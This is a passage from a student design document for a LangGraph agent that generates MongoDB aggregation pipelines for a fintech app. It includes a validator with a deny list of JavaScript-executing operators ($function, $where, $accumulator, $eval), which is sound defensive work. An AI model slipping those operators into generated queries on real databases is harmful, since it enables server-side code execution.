2. **Cost** — 8,000 tokens of schema context per query × 1,000 queries/day = 8M tokens/day in schema context alone
3. **Future-proofing** — our schema will grow; keeping prompt size bounded by relevance, not total schema size, is architecturally sound

**The solution:**

A lightweight `schema_retriever` node acts as a collection classifier before query generation. It uses a small, fast LLM call (or a fine-tuned classifier) to identify which 1–3 collections are relevant to the user's question.

```python
# schema_retriever node — simplified
CLASSIFIER_PROMPT = """
You are a MongoDB schema classifier. Given a user question and a list of collection names
with one-sentence descriptions, identify which collections (1-3 maximum) are needed to
answer the question.

Collections:
{collection_list}

Question: {question}

Respond with a JSON array of collection names only.
Example: ["transactions", "accounts"]
"""

def schema_retriever(state: AgentState) -> AgentState:
    collection_list = "\n".join([
        f"- {name}: {description}"
        for name, description in COLLECTION_DESCRIPTIONS.items()
    ])
    
    relevant_collections_str = fast_llm.predict(
        CLASSIFIER_PROMPT.format(
            collection_list=collection_list,
            question=state["question"]
        )
    )
    relevant_collections = json.loads(relevant_collections_str)
    
    # Fetch only relevant schemas from Redis
    schema_context = {}
    for collection in relevant_collections:
        cached = redis_client.get(f"schema:{collection}")
        if cached:
            schema_context[collection] = json.loads(cached)
        else:
            schema_context[collection] = introspect_and_cache(collection)
    
    state["schema_context"] = schema_context
    state["relevant_collections"] = relevant_collections
    return state
```

**Impact:** Average prompt reduction from ~7,000 tokens to ~1,500–2,500 tokens. Observed improvement in pipeline correctness: significant (informally validated during development).

---

### Decision 3: Static Query Validator Before Execution

**The problem:**

Executing an invalid MongoDB aggregation pipeline against a production database wastes:
- Network round-trip time
- MongoDB server resources (parsing the pipeline even if it fails)
- More importantly: if the pipeline is syntactically valid but semantically wrong (references a non-existent field), MongoDB executes it silently and returns empty or incorrect results

**The solution:**

A `static_validator` node checks the pipeline against a set of rules *before* it touches MongoDB:

```python
ALLOWED_OPERATORS = {
    # Pipeline stage operators
    "$match", "$group", "$project", "$sort", "$limit", "$skip",
    "$lookup", "$unwind", "$addFields", "$replaceRoot", "$count",
    "$facet", "$bucket", "$sortByCount", "$sample",
    # Expression operators
    "$sum", "$avg", "$min", "$max", "$first", "$last",
    "$push", "$addToSet",
    "$eq", "$ne", "$gt", "$gte", "$lt", "$lte",
    "$in", "$nin", "$exists", "$type", "$regex",
    "$and", "$or", "$not", "$nor",
    "$dateToString", "$year", "$month", "$dayOfMonth",
    "$subtract", "$add", "$multiply", "$divide",
    "$toDecimal", "$toString", "$toDate", "$toLower", "$toUpper",
    "$concat", "$substr", "$trim", "$split",
    "$ifNull", "$cond", "$switch",
    # BLOCKED: "$function", "$where", "$accumulator" — allow JS execution
}

DANGEROUS_OPERATORS = {"$function", "$where", "$accumulator", "$eval"}

def static_validator(state: AgentState) -> AgentState:
    pipeline = state["generated_pipeline"]
    schema = state["schema_context"]
    errors = []
    warnings = []

    # Check 1: Is the pipeline a list?
    if not isinstance(pipeline, list):
        errors.append("Pipeline must be a JSON array of stage objects.")
        
    # Check 2: No dangerous operators
    pipeline_str = json.dumps(pipeline)
    for op in DANGEROUS_OPERATORS:
        if op in pipeline_str:
            errors.append(f"Dangerous operator '{op}' is not permitted.")
    
    # Check 3: All operators are in the whitelist
    operators_used = extract_all_operators(pipeline)
    unknown_ops = operators_used - ALLOWED_OPERATORS
    if unknown_ops:
        errors.append(f"Unknown or disallowed operators: {unknown_ops}")
    
    # Check 4: Field names exist in schema
    referenced_fields = extract_field_references(pipeline)
    schema_fields = get_all_schema_fields(schema)
    unknown_fields = referenced_fields - schema_fields
    if unknown_fields:
        warnings.append(f"Possible hallucinated fields: {unknown_fields}")
    
    # Check 5: $lookup references valid collection
    for stage in pipeline:
        if "$lookup" in stage:
            lookup_collection = stage["$lookup"].get("from")
            if lookup_collection not in state["all_collections"]:
                errors.append(f"$lookup references unknown collection: {lookup_collection}")
    
    state["validation_errors"] = errors
    state["validation_warnings"] = warnings
    state["validation_passed"] = len(errors) == 0
    return state
```

This catches the most common LLM mistakes cheaply, before any database interaction.

---

### Decision 4: Separate `result_corrector` Node from `query_corrector` Node

**The problem:**

Query failures fall into two categorically different classes:

| Class | Trigger | Root Cause | Correct Fix |
|---|---|---|---|
| **Syntax/structural failure** | MongoDB raises an exception | Invalid stage, wrong operator, bad field path | Fix the pipeline syntax |
| **Semantic failure** | Query executes, returns empty or wrong results | Correct syntax, wrong logic — wrong `$match` values, wrong collection, wrong grouping | Rethink the query approach entirely |

If we use a single corrector node for both cases, the prompt for semantic correction ("the query ran but returned nothing") is very different from the prompt for syntactic correction ("MongoDB raised error XYZ"). Using one node means compromising both prompts.

**The solution:**

Two separate corrector nodes with different prompts and different state context:



**`query_corrector` prompt focus:**
- Receives: the pipeline JSON + the exact MongoDB error message
- Task: fix the specific syntactic or structural error
- Example context: `"Error: unknown operator '$contains'. Did you mean '$regex'?"`

**`result_corrector` prompt focus:**
- Receives: the pipeline JSON + the result (empty array or suspicious data) + the original question
- Task: fundamentally rethink the query approach
- Example context: `"The pipeline returned 0 results. The 'status' field only has values: ['completed', 'pending', 'failed']. Your filter used 'success' which does not exist."`

**Maximum iteration guard:**

```python
MAX_QUERY_CORRECTIONS = 3
MAX_RESULT_CORRECTIONS = 2

def should_continue_correcting(state: AgentState) -> str:
    if state["query_correction_count"] >= MAX_QUERY_CORRECTIONS:
        return "give_up"  # Route to error response node
    if state["result_correction_count"] >= MAX_RESULT_CORRECTIONS:
        return "give_up"
    return "continue"
```

---

### Decision 5: Celery for Scheduling, Not APScheduler

**The problem:**

Business users want to schedule recurring queries: "Run this every Monday morning and send me the results." This requires a job scheduler that:
- Persists scheduled jobs across server restarts
- Supports distributed execution (multiple workers)
- Handles failures gracefully (retry logic)
- Provides job status tracking and history

**Options evaluated:**

| Scheduler | Persistence | Distributed | Production-grade | Our verdict |
|---|---|---|---|---|
| `APScheduler` | Optional (SQLAlchemy) | Limited | No | Rejected |
| `schedule` (pip) | None | No | No | Rejected |
| `Celery Beat` + `Celery` | Redis / RabbitMQ | Yes | Yes | Chosen |
| `Airflow` | PostgreSQL | Yes | Enterprise | Overkill |
| `Temporal` | Embedded | Yes | Enterprise | Overkill |

**Why APScheduler was rejected:**
- In-process scheduler — if the FastAPI server crashes, all scheduled jobs are lost
- No distributed workers — cannot scale horizontally
- No built-in retry on task failure
- Not designed for the job volumes a fintech application might encounter

**Why Celery was chosen:**



- **Redis as broker**: already in our stack for schema caching — no new infrastructure
- **Survives restarts**: jobs are stored in Redis, not in-process memory
- **Distributed**: multiple Celery workers can consume from the same queue
- **Retry built-in**: `@celery_app.task(autoretry_for=(Exception,), max_retries=3, countdown=60)`
- **Celery Beat**: cron-like periodic task scheduling that reads job definitions from the database

**Scheduled job structure (stored in MongoDB `scheduled_jobs` collection):**

```python
{
    "_id": ObjectId("..."),
    "job_name": "weekly_revenue_report",
    "question": "What is total revenue by account type for the past 7 days?",
    "validated_pipeline": [...],  # The validated aggregation pipeline
    "collection": "transactions",
    "schedule": {"cron": "0 9 * * MON"},  # Every Monday at 9 AM
    "created_by": "user_42",
    "celery_task_id": "abc123",
    "last_run": "2026-09-01T09:00:00Z",
    "last_result_id": ObjectId("..."),
    "status": "active"
}
```

---

### Decision 6: WebSocket for Streaming Agent Responses

**The problem:**

LLM inference is slow — generating a full response can take 5–30 seconds. A static loading spinner for this duration provides a poor user experience. Business users need to see that *something is happening*: which node is active, what the LLM is currently writing, whether the query has been validated.

**Options evaluated:**

| Mechanism | Direction | Setup Complexity | Browser Support | Chosen |
|---|---|---|---|---|
| HTTP Polling | Client → Server | Low | Universal | Wasteful |
| Server-Sent Events (SSE) | Server → Client | Low | Good | Considered |
| WebSocket | Bidirectional | Medium | Good | Chosen |
| Long Polling | Client → Server | Low | Universal | Wasteful |

**Why WebSocket over SSE:**

SSE (Server-Sent Events) would have been sufficient for streaming LLM token output. However, we need **bidirectional communication** for:
- Mid-stream user cancellation ("stop generating")
- User providing clarification when the agent asks a disambiguating question
- Ping/pong heartbeats on long-running jobs

```python
# FastAPI WebSocket endpoint
@app.websocket("/ws/query/{session_id}")
async def websocket_query(websocket: WebSocket, session_id: str):
    await websocket.accept()
    
    try:
        data = await websocket.receive_json()
        question = data["question"]
        
        # Stream LangGraph events via WebSocket
        async for event in agent_graph.astream_events(
            {"question": question, "session_id": session_id},
            version="v1"
        ):
            event_type = event["event"]
            
            if event_type == "on_chat_model_stream":
                # Stream LLM tokens in real-time
                await websocket.send_json({
                    "type": "llm_token",
                    "content": event["data"]["chunk"].content
                })
            elif event_type == "on_chain_start":
                # Notify which node is starting
                await websocket.send_json({
                    "type": "node_start",
                    "node": event["name"]
                })
            elif event_type == "on_chain_end":
                await websocket.send_json({
                    "type": "node_complete",
                    "node": event["name"],
                    "output": event["data"].get("output")
                })
    
    except WebSocketDisconnect:
        # User navigated away — cancel the LangGraph run
        await cancel_active_run(session_id)
```

**React frontend consumption:**

```typescript
// React hook for WebSocket agent streaming
const useAgentStream = (sessionId: string) => {
  const [nodes, setNodes] = useState<NodeStatus[]>([]);
  const [tokens, setTokens] = useState<string>("");

  useEffect(() => {
    const ws = new WebSocket(`ws://localhost:8000/ws/query/${sessionId}`);
    
    ws.onmessage = (event) => {
      const msg = JSON.parse(event.data);
      if (msg.type === "llm_token") {
        setTokens(prev => prev + msg.content);
      } else if (msg.type === "node_start") {
        setNodes(prev => [...prev, { name: msg.node, status: "running" }]);
      }
    };
    
    return () => ws.close();
  }, [sessionId]);

  return { nodes, tokens };
};
```

---

## 5. Fresh Student Perspective — Honest Challenges and Observations

> [!NOTE]
> This section is written from the perspective of the student developers. Unlike the rest of the document, which is prescriptive and design-focused, this section is honest about what was harder than expected, what was learned, and what remains unsolved.

---

### 5.1 Prompt Engineering Is Harder Than Expected

Before starting this project, we expected prompt engineering to be straightforward: describe the task in English, give the schema, ask for a pipeline. In practice, getting the LLM to consistently generate correct, executable aggregation pipelines required:

- **Explicit stage ordering rules**: We had to include rules like "always place `$match` as the first stage when filtering is required, to enable index usage" in the system prompt — the LLM does not infer this from training data alone.
- **Negative examples**: Including examples of *wrong* pipelines (and explanations of why they're wrong) significantly reduced hallucination rates.
- **Explicit type guidance**: Without explicitly telling the LLM "the `amount` field is a `Decimal128` BSON type, not a JavaScript number," it would generate arithmetic operators that work in JavaScript but fail in MongoDB's aggregation expression evaluator.
- **Instruction to return *only* JSON**: Without this, the LLM frequently wrapped the pipeline in a markdown code block and included explanatory text, breaking our JSON parser.

The prompt for query generation alone went through over 20 iterations before reaching acceptable reliability.

---

### 5.2 MongoDB Aggregation Pipelines Are Difficult Even for Humans

This was a genuine surprise. Before this project, we had used MongoDB with simple `find()` queries. The aggregation pipeline framework is a completely different programming paradigm:

- `$lookup` + `$unwind` is conceptually equivalent to a SQL JOIN, but requires understanding that `$lookup` produces an array field, and `$unwind` is needed to deconstruct it — a two-step operation that SQL handles in one `JOIN` keyword
- `$facet` (computing multiple aggregations in parallel) has no SQL equivalent and is difficult to prompt the LLM about because there are few examples in its training data
- Date manipulation requires knowing the exact MongoDB date operators: `$dateToString`, `$dateDiff`, `$dateTrunc` — and these changed between MongoDB 4.x and 5.x

If it's hard for us as developers who wrote the schema, it is even harder for the LLM. This validated our decision to invest heavily in the `schema_retriever` node and the static validator.

---

### 5.3 Result Validation Is an Unsolved Problem

We can validate that a query *runs*. We cannot validate that it returns the *correct* answer. This is the fundamental limitation of our system, and we were not aware of how profound it is before starting.

Example: The question "What is the average loan balance by risk tier?" generates a pipeline that executes successfully and returns:
```json
[
  {"_id": "low", "avg_balance": 45000.25},
  {"_id": "medium", "avg_balance": 72000.10},
  {"_id": "high", "avg_balance": 118000.45}
]
```

Is this correct? We have no ground truth to compare against. Our `result_validator` can only check:
- Is the result non-empty? ✅
- Do the field names match what was requested? ✅
- Are the values plausible (positive numbers, reasonable magnitude)? ✅ (heuristic)
- Is the number of groups reasonable (not 0, not 10 million)? ✅ (heuristic)

But it cannot confirm the numbers are accurate. This is an open research problem in text-to-query systems generally.

---

### 5.4 LangGraph Has a Learning Curve

LangGraph's concepts — `TypedDict` state, conditional edges, cycles, `Command` objects — are not well-covered in standard LangChain tutorials. Specific pain points:

- **Cycles**: LangGraph allows graph cycles (node A → node B → node A), which is essential for our retry loop. But debugging an infinite cycle during development was difficult — we had to add explicit iteration counters and guard conditions.
- **State typing**: The `TypedDict`-based state is strict. Adding a new field to the graph state without updating the `TypedDict` definition causes silent failures or runtime errors.
- **Streaming with cycles**: `astream_events` behaves differently in graphs with cycles than in linear chains. The documentation for this case is sparse.
- **Checkpointing**: LangGraph's persistence/checkpointing feature uses a `Checkpointer` interface. Integrating this with our Redis instance (instead of the default in-memory checkpointer) required reading the LangGraph source code directly.

---

### 5.5 The Scheduling System Feels Like a Separate Project

The core agent pipeline (question → query → answer) and the scheduling system (job persistence → Celery Beat → execution → result storage) are architecturally almost independent. Integrating them required:

- Designing a `scheduled_jobs` MongoDB collection that stores validated pipelines
- Writing a Celery task that re-runs a stored pipeline (not a user question — the pipeline is already validated, so the full LangGraph agent is not re-invoked for scheduled runs)
- Building an API for managing jobs (create, pause, delete, view history)
- Building a separate React UI component for the "Schedule Management" view

This was approximately 30% of the total development effort for a feature that is not the core research contribution of the project.

---

### 5.6 Generating Realistic Fintech Test Data Is Harder Than It Seems

Our 12-collection MongoDB schema includes:
- `users` — personal information, KYC status
- `accounts` — linked to users, with balance
- `transactions` — linked to accounts, with amount, status, timestamps
- `loans` — linked to users, with principal, interest rate, repayment schedule
- `payments` — linked to loans
- `risk_scores` — linked to users, computed periodically
- *(and 6 more collections)*

Generating realistic data requires **referential integrity** (every `transaction.account_id` must reference a real `account._id`) and **semantic consistency** (an account's `balance` field must approximately match the sum of its credit minus debit `transactions`).

Using Faker alone (or even LLM-generated data) gives syntactically valid but semantically meaningless data. For example:
- A user with KYC status "approved" but all transactions marked "failed" (inconsistent risk profile)
- Loan payments that exceed the loan principal (impossible)
- Transactions dated *before* the account creation date (temporal impossibility)

We ended up writing a custom `data_generator.py` that generates data procedurally, ensuring consistency — which itself took approximately two weeks of development time.

---

## 6. Design Pattern: Schema-Aware Prompting

### 6.1 Overview

Schema-Aware Prompting is the central design pattern of our query generation system. The key insight — borrowed from C3-SQL and validated by our own experiments — is that **the LLM cannot generate correct MongoDB queries without knowing the exact schema of the relevant collections, including field names, types, and sample/enum values.**

### 6.2 Schema Storage Structure

Schema is stored in Redis as a structured JSON document per collection:

```json
{
  "collection": "transactions",
  "document_count": 4200000,
  "indexes": ["account_id_1", "status_1", "created_at_-1"],
  "fields": {
    "_id": {
      "type": "ObjectId",
      "description": "Unique transaction identifier",
      "sample": "64a7f3c2e1b2c3d4e5f60001"
    },
    "account_id": {
      "type": "ObjectId",
      "description": "Reference to accounts._id",
      "ref_collection": "accounts"
    },
    "amount": {
      "type": "Decimal128",
      "description": "Transaction amount in account currency",
      "min": 0.01,
      "max": 999999.99,
      "sample": 1250.00
    },
    "status": {
      "type": "string",
      "description": "Transaction lifecycle status",
      "enum": ["completed", "pending", "failed", "reversed"],
      "distribution": {"completed": 0.72, "pending": 0.15, "failed": 0.10, "reversed": 0.03}
    },
    "transaction_type": {
      "type": "string",
      "enum": ["credit", "debit", "transfer", "fee", "interest"]
    },
    "currency": {
      "type": "string",
      "enum": ["USD", "EUR", "GBP", "INR", "AED"]
    },
    "created_at": {
      "type": "Date",
      "description": "UTC timestamp of transaction creation",
      "sample": "2024-03-15T14:22:10.000Z"
    },
    "metadata": {
      "type": "object",
      "subfields": {
        "channel": {"type": "string", "enum": ["mobile", "web", "atm", "branch", "api"]},
        "device_id": {"type": "string", "sample": "d_a3f8b2c1"}
      }
    }
  }
}
```

### 6.3 Schema Flow in the Agent



If the Redis cache misses:


### 6.4 The Query Generation Prompt Template

```python
QUERY_GENERATION_SYSTEM_PROMPT = """
You are an expert MongoDB aggregation pipeline generator for a fintech application.

## Your Task
Convert the user's natural language question into a valid MongoDB aggregation pipeline.
Return ONLY a JSON array (the pipeline). Do NOT include any explanation, markdown
formatting, or code blocks. The response must be parseable by json.loads() directly.

## Schema Context
The following collections are relevant to the user's question:

{schema_context}

## Critical Rules
1. ALWAYS place $match as the first stage when filtering is needed — enables index use.
2. ALWAYS use $unwind after $lookup — $lookup produces an array; $unwind deconstructs it.
3. Field path references in expressions MUST use the "$" prefix (e.g., "$amount").
4. String field names in $match do NOT use the "$" prefix (e.g., {"status": "completed"}).
5. For date comparisons, use ISO 8601 format: "2024-01-01T00:00:00Z".
6. For Decimal128 fields (like "amount"), arithmetic operators work correctly.
7. The status field for transactions ONLY has values: {status_enum}.
   Never use "success", "done", "active" — these do not exist.
8. Return ONLY the pipeline array. No explanations. No markdown. No prose.

## Stage Ordering Best Practices
$match -> $lookup -> $unwind -> $addFields -> $group -> $project -> $sort -> $limit

## Aggregation Pipeline Format
[
  {"$match": {...}},
  {"$group": {"_id": "$field", "total": {"$sum": "$amount"}}},
  {"$sort": {"total": -1}},
  {"$limit": 10}
]
"""

QUERY_GENERATION_HUMAN_PROMPT = """
Question: {question}

Relevant collections: {relevant_collections}

Generate the MongoDB aggregation pipeline now:
"""
```

### 6.5 Why Sample Values Are Critical

Without knowing the exact enum values for the `status` field, the LLM will hallucinate values based on common sense or training data patterns:

| Scenario | LLM Behaviour Without Sample Values | LLM Behaviour With Sample Values |
|---|---|---|
| "Show completed transactions" | Might generate `{"status": "success"}` or `{"status": "done"}` — both wrong | Generates `{"status": "completed"}` — correct |
| "Failed payments only" | Might generate `{"status": "error"}` or `{"status": "declined"}` | Generates `{"status": "failed"}` — correct |
| "Non-pending transactions" | Might use `{"status": {"$ne": "pending"}}` — but only if it guesses "pending" correctly | Correct, and knows the exact set of values to reason about |
| Filter by transaction channel | Might guess `"mobile_app"` instead of `"mobile"` | Generates `"mobile"` — exact enum value from schema |

**The status field example is the most important:**  
`"completed"` vs `"success"` — MongoDB's `$match` is case-sensitive and exact-match by default. Using the wrong string value causes the query to return 0 results, with no error raised. This is a **silent failure**. Schema-Aware Prompting with enum values eliminates this entire failure class.

---

## 7. Failure Cases — System-Level

### 7.1 Scenario: Schema Drift

**Description:** A developer renames the `amount` field to `transaction_amount` in the MongoDB collection. The Redis schema cache still contains `amount`. The `query_generator` generates pipelines referencing `amount`. MongoDB executes them without error (referencing a non-existent field returns null/0, not an error), but all aggregations return 0.

**Failure chain:**


**Mitigation:**

```python
def compute_schema_hash(collection_name: str) -> str:
    """Compute a fingerprint of the collection's field structure."""
    sample = list(db[collection_name].aggregate([
        {"$sample": {"size": 10}},
        {"$project": {"_id": 0}}
    ]))
    # Extract all unique field paths across sample documents
    all_fields = set()
    for doc in sample:
        all_fields.update(extract_field_paths(doc))
    # Hash the sorted field list
    return hashlib.sha256(
        json.dumps(sorted(all_fields)).encode()
    ).hexdigest()[:16]

# In schema_retriever node:
cached_schema = redis_client.get(f"schema:{collection}")
if cached_schema:
    cached_data = json.loads(cached_schema)
    current_hash = compute_schema_hash(collection)
    if current_hash != cached_data.get("schema_hash"):
        # Schema has changed — invalidate and re-introspect
        redis_client.delete(f"schema:{collection}")
        cached_data = introspect_and_cache(collection)
```

**Operational mitigation:** CI/CD pipeline runs a schema validation step on every MongoDB migration that forces a cache flush via `redis-cli DEL schema:*`.

---

### 7.2 Scenario: LLM Over-Fits to Training Examples in the Prompt

**Description:** The system prompt includes few-shot examples. If the examples are heavily biased toward `transactions` (the most common collection queried), the LLM may generate pipelines for `transactions` even when the question is about `loans` or `accounts`.

**Example:**
- User asks: "What is the average interest rate by risk tier?"
- Correct collection: `loans` (has `interest_rate` and `risk_tier` fields)
- LLM over-fits: generates a pipeline on `transactions` (no `interest_rate` field → 0 result)

**Detection:** The static validator checks whether the fields referenced in the pipeline exist in the schema of the target collection. If `interest_rate` is not in the `transactions` schema, the validator raises a warning.

**Mitigation:**
1. The `schema_retriever` classifier runs before query generation and explicitly constrains the LLM to the identified collections
2. Few-shot examples in the prompt are balanced across all collections (at least one example per collection type)
3. The `query_corrector` prompt includes: "The previous pipeline targeted the wrong collection. The question is about loans, which maps to collection `loans`."

---

### 7.3 Scenario: Ambiguous Question With Two Valid Interpretations

**Description:** The question "Show me the top customers" is ambiguous:
- Interpretation A: Customers with the highest total transaction volume
- Interpretation B: Customers with the highest account balance
- Interpretation C: Customers with the most active loans

**Agent behaviour:**

The agent picks the most likely interpretation based on schema context and states its assumption explicitly in the response:

```python
AMBIGUITY_SYSTEM_PROMPT_ADDITION = """
If the question is ambiguous and could be answered in multiple valid ways,
choose the most likely interpretation based on the schema context, generate
the pipeline for that interpretation, and BEGIN your natural language answer
with: "I interpreted your question as [X]. If you meant [Y], please rephrase."
Do NOT ask clarifying questions before generating — generate first, explain second.
"""
```

**Rationale for "generate first, explain second":** In a business context, a partial answer with an explanation is more valuable than a follow-up question that adds a round-trip latency. The user can immediately see whether the interpretation was correct.

---

### 7.4 Scenario: Network Failure During Celery Task Execution

**Description:** A scheduled job running the pipeline for `weekly_revenue_report` fails midway because the MongoDB connection is lost.

**Mitigation — Celery retry with exponential backoff:**

```python
@celery_app.task(
    bind=True,
    autoretry_for=(pymongo.errors.NetworkTimeout, pymongo.errors.ConnectionFailure),
    max_retries=5,
    retry_backoff=True,      # Exponential backoff
    retry_backoff_max=600,   # Max 10 minutes between retries
    retry_jitter=True        # Randomness to prevent thundering herd
)
def execute_scheduled_pipeline(self, job_id: str):
    try:
        job = db.scheduled_jobs.find_one({"_id": ObjectId(job_id)})
        pipeline = job["validated_pipeline"]
        collection = job["collection"]
        
        result = list(db[collection].aggregate(pipeline))
        
        db.job_results.insert_one({
            "job_id": ObjectId(job_id),
            "result": result,
            "executed_at": datetime.utcnow(),
            "status": "success"
        })
    except Exception as exc:
        db.job_results.insert_one({
            "job_id": ObjectId(job_id),
            "error": str(exc),
            "executed_at": datetime.utcnow(),
            "status": "failed",
            "retry_count": self.request.retries
        })
        raise self.retry(exc=exc)
```

**Monitoring:** All Celery task failures are logged to MongoDB's `job_results` collection. A separate monitoring endpoint exposes failed job counts for alerting.

---

### 7.5 Scenario: LLM Returns Valid JSON That Is Not a Valid Aggregation Pipeline

**Description:** The LLM returns syntactically valid JSON that is not a MongoDB aggregation pipeline:
```json
{"query": "db.transactions.find({})", "limit": 10}
```
Or a single stage object instead of a pipeline array:
```json
{"$match": {"status": "completed"}}
```

**Detection:** The static validator's first check:

```python
def static_validator(state: AgentState) -> AgentState:
    pipeline = state["generated_pipeline"]
    
    # Primary structural checks
    if not isinstance(pipeline, list):
        state["validation_errors"].append(
            f"Pipeline must be a JSON array. Got: {type(pipeline).__name__}. "
            f"The LLM may have returned a single stage object or a non-pipeline structure."
        )
        state["validation_passed"] = False
        return state
    
    if len(pipeline) == 0:
        state["validation_errors"].append(
            "Pipeline is an empty array. At least one stage is required."
        )
        state["validation_passed"] = False
        return state
    
    for i, stage in enumerate(pipeline):
        if not isinstance(stage, dict):
            state["validation_errors"].append(f"Stage {i} is not an object: {stage}")
        elif len(stage) != 1:
            state["validation_errors"].append(
                f"Stage {i} must have exactly one key (the operator). Got: {list(stage.keys())}"
            )
        else:
            stage_operator = list(stage.keys())[0]
            if not stage_operator.startswith("$"):
                state["validation_errors"].append(
                    f"Stage {i} operator '{stage_operator}' must start with '$'."
                )
```

**Recovery:** The `query_corrector` is given the structural error message and re-prompts the LLM with an explicit example of the required format.

---

## 8. What Makes Our System Novel

### 8.1 The Novelty Stack

Most natural language query systems stop at query generation. They answer the question: *"Can we generate a query from a question?"* Our system answers a fundamentally different question: *"Can we reliably deliver a correct, validated, auditable, schedulable query pipeline to a non-technical business user?"*



### 8.2 Feature Comparison Table

| Capability | OpenAI SQL Agent | LangChain SQLChain | Vanna.AI | MongoDBChain | **Our System** |
|---|:---:|:---:|:---:|:---:|:---:|
| Natural language input | ✅ | ✅ | ✅ | ✅ | ✅ |
| MongoDB aggregation pipeline | ❌ | ❌ | ❌ | Partial | ✅ |
| Schema-aware prompting with enum values | ❌ | ❌ | ❌ | ❌ | ✅ |
| Schema caching (Redis) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Relevant-collection filtering | ❌ | ❌ | ❌ | ❌ | ✅ |
| Static pre-execution validation | ❌ | ❌ | ❌ | ❌ | ✅ |
| Result validation (semantic) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Iterative self-correction loop | Partial | ❌ | ❌ | ❌ | ✅ |
| Scheduled recurring jobs | ❌ | ❌ | ❌ | ❌ | ✅ |
| Real-time streaming (WebSocket) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Full audit trail (pipeline + result) | ❌ | ❌ | ❌ | ❌ | ✅ |
| Dangerous operator whitelist | ❌ | ❌ | ❌ | ❌ | ✅ |
| Schema drift detection | ❌ | ❌ | ❌ | ❌ | ✅ |
| Fintech domain specificity | ❌ | ❌ | ❌ | ❌ | ✅ |

### 8.3 The Combination Is the Novelty

Each individual component of our system has precedent:
- LangGraph is a published open-source framework
- MongoDB aggregation pipelines are a known query format
- Redis caching is standard practice
- Celery is a mature task queue

The novelty is the **integration** of these components into a coherent, self-correcting, auditable pipeline that can take a business question all the way from natural language to a scheduled enterprise job — without any technical user in the loop.

> [!IMPORTANT]
> To our knowledge, no existing open-source project implements the full combination of:  
> **(1) LangGraph stateful agent** +  
> **(2) MongoDB aggregation pipeline generation** +  
> **(3) Static validation with operator whitelist** +  
> **(4) Iterative result validation with separate corrector nodes** +  
> **(5) Celery-based job scheduling of validated pipelines** +  
> **(6) WebSocket real-time streaming of agent state**  
>  
> for a production fintech domain.

### 8.4 The Audit Trail as a Novel Enterprise Feature

Every query execution in our system produces an immutable audit record:

```python
# Stored in MongoDB — audit_log collection
{
    "_id": ObjectId("..."),
    "session_id": "sess_a3f8b2c1",
    "user_id": "user_42",
    "question": "What is the total revenue by account type for Q3 2026?",
    "relevant_collections": ["transactions", "accounts"],
    "generated_pipeline": [
        {
          "$match": {
            "status": "completed",
            "created_at": {"$gte": "2026-07-01T00:00:00Z", "$lt": "2026-10-01T00:00:00Z"}
          }
        },
        {
          "$lookup": {
            "from": "accounts",
            "localField": "account_id",
            "foreignField": "_id",
            "as": "account"
          }
        },
        {"$unwind": "$account"},
        {
          "$group": {
            "_id": "$account.account_type",
            "total_revenue": {"$sum": "$amount"}
          }
        },
        {"$sort": {"total_revenue": -1}}
    ],
    "validation_passed": true,
    "correction_iterations": 1,
    "execution_time_ms": 342,
    "result_row_count": 4,
    "result_preview": [
        {"_id": "savings", "total_revenue": 4821000.50},
        {"_id": "checking", "total_revenue": 3102000.25}
    ],
    "answer": "For Q3 2026, savings accounts generated the highest revenue at $4.82M.",
    "timestamp": "2026-09-03T14:22:10.000Z",
    "schema_hash_at_query_time": "a3f8b2c1"
}
```

In a fintech context, this audit log is directly relevant to:
- **Regulatory compliance** (demonstrating what data was queried and when)
- **Internal audit** (reproducibility of business intelligence queries)
- **Debugging** (tracing incorrect reports back to the specific pipeline that generated them)
- **Model improvement** (building a training corpus of (question, pipeline) pairs validated by production usage)

### 8.5 The Path From Query to Enterprise Job

This is arguably the most practically impactful feature of our system and the one with the fewest precedents:


A business analyst who has no knowledge of MongoDB, aggregation pipelines, or Python can:
1. Ask a question in plain English
2. Review the result
3. Click "Schedule this query" and set a recurrence (weekly, monthly, end-of-day)
4. Receive results automatically, without further technical involvement

This is the end-to-end vision: **natural language as the interface to enterprise data pipelines.**

---

*Document end. Version 1.0 — September 2026.*  
*Authors: Project Team | Advisor: Goldman Sachs Engineer*  
*Repository: `c:\Users\guru2\Downloads\llm prj`*
